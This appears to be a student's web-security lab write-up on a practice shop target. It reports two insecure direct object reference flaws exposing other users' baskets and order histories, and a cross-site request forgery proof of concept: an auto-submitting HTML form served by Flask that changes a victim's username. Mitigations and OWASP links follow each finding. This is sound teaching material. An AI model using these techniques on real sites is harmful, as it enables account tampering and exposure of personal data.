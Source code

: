 # Web Application Security

## Week 01  

### Authorization Bypass:

#### Wasdat - View Basket

**Title:** Unauthorized user can view other users baskets.

**Description:** Web Application has insecure direct object vulnerability. Application stores unecrypted basket id in session storage when querying basket items from users basket. Changing basket id enables unauthorized user to view other users basket.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi/3000`.
2. Login in to the website.
3. Head to basket.
4. Open developer tools and view `storage` tab.
5. In `storage` tab, select `session storage`.  
    5. You can find attribute `bid` = `basket id`.
6. Change `bid` value for example: `3`. Navigate to any other view in the website and open `basket` again.
7. Other users basket is now visible to you.


* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Use more complex identifiers, random generated UUIDs for example.
        * See ![4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
    * Check two parameters: buid and authenticate for which user buid belongs to.

---

#### Main Target - Wasdat.fi

**Title:** Unauthorized user can view other users order history and access address information.

**Description:** Web Application has insecure direct object vulnerability.  Application enables unauthorized user to view other user order history by chaning user id in the url address.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi`.
2. Login in to the website.
3. When logged in hover over dropdown navigation on top left and press `order history`.
4. When viewing your order history, url is: `http://wasdat.fi/user/13/orders`.
5. Change user id to see view other peoples order history. user id `3` exposes the flag.
> `http://wasdat.fi/user/3/orders`
![image](../images/was1.PNG)


* Impact estimation:
    * Low Severity. User can access other users order history and view their address information.
* Mitigation:
    * Use more complex identifiers, random generated UUIDs for example.
        * See ![4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
    * Check two parameters: buid and authenticate for which user buid belongs to.  
    * Don't include user id in url parameter.

---

#### Main Target - Wasdat.fi

**Title:** Cross Site Forgery - Change victim username 

**Description:** Web Application allows cross site request and is vulnerable for forged websites to send http requests to application. This allows malicious websites execute `http` request towards the website.

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Juice Shop Redirect</title>
        <script>
            window.onload = function() {
                document.getElementById("autoSubmitForm").submit();
            }
        </script>
    </head>

    <body>
        <form action="http://wasdat.fi:3000/profile" method="post" id="autoSubmitForm">
            <input name="username" value="ab0197" />
            <input type="submit">
        </form>
    </body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi:3000` and goes to your url, in this case: `http://127.0.0.1:5000/` his username will be automically changed to `ab0197` and will be directed to his profile page.  

![image](../images/was3.png)


* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Modify settings endpoint to check for authentication&authorization properly
        * See: https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html (good: it's good to be able to provide a link or links that provide more information and guidance)
        * See: https://imaginary-web-framework-targetapp-is-made-with.com/docs/best-practices/authorization (excellent: if you are able, it's great to refer to guidance that is most relevant to target application)

---

